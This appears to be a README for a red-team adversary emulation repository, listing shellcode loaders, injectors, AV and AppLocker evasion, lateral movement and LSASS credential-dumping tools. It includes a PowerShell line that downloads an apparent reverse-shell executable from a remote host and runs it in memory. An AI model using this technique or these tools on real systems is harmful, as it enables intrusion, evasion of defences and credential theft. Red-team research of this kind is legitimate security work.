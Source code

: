 # Adversary Emulation Code Repository

## Disclaimer
All code examples in this repository are provided as-is, without any warranty or guarantee of functionality. This repository serves as a collection of code used in my adversary emulation studies.

## Overview
This repository contains various tools and techniques for adversary emulation, focusing on evasion, lateral movement, and payload execution. The code is structured for modularity, with public classes and methods to allow for reflective loading, as demonstrated below:

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main("".Split())
```

## Contents
| Snippet Name | Description |
|-------------|-------------|
| **AppLocker Bypass PowerShell Runspace (C#)** | Uses `CertUtil`, `BitsAdmin`, and `InstallUtil` to bypass AppLocker restrictions. |
| **Fileless Lateral Movement (C#)** | Achieves lateral movement without writing to disk, leveraging a PSExec-like method with an existing process. Includes Windows Defender evasion techniques. |
| **Linux Shellcode Encoder (Python)** | Encodes C# payloads from Linux, supporting XOR and ROT encoding with an arbitrary key. Accepts raw shellcode payloads or integrates with `msfvenom`. |
| **Linux Shellcode Loaders (C)** | A collection of C-based shellcode loaders, including library hijacking techniques. |
| **MiniDump (C# & PowerShell)** | Dumps LSASS to `C:\Windows\Tasks\lsass.dmp`. Also provided as a native PowerShell script. |
| **MSSQL (C#)** | Demonstrates various MSSQL interactions, allowing customization based on specific needs. |
| **PrintSpoofer.NET (C#)** | Exploits Print Spooler vulnerabilities to steal authentication tokens and execute arbitrary binaries without requiring an interactive session. |
| **ROT Shellcode Encoder (C#)** | Obfuscates shellcode using ROT encoding, taking an argument for the number of rotations. |
| **Sections Shellcode Process Injector (C#)** | Injects shellcode using `NtCreateSection`, `NtMapViewOfSection`, `NtUnMapViewOfSection`, and `NtClose`, avoiding standard process injection techniques. |
| **Shellcode Process Hollowing (C#)** | Uses process hollowing to inject and execute shellcode in `svchost.exe`, achieving a low detection rate on VirusTotal. |
| **Shellcode Process Injector (C# & PowerShell)** | Injects shellcode into a target process, selecting an appropriate process based on privilege level. Also available as a PowerShell script. |
| **Simple Shellcode Runner (C# & PowerShell & VBA)** | A basic shellcode runner implemented in C#, PowerShell, and VBA. |
| **XOR Shellcode Encoder (C#)** | Applies XOR encoding for shellcode obfuscation, enhancing evasion capabilities. |

## Why This Repository?
This collection is designed to demonstrate practical adversary emulation techniques used in cybersecurity research, red teaming, and penetration testing. It provides:
- Modular and reusable code for various security research applications.
- Evasion techniques to bypass detection mechanisms.
- Practical examples of lateral movement and process injection methodologies.

---
### ⚠️ Ethical Usage Notice
This repository is intended for **educational and research purposes only**. Any misuse of the provided code is strictly discouraged. Always obtain proper authorization before conducting security assessments.

For inquiries or collaboration opportunities, feel free to connect!

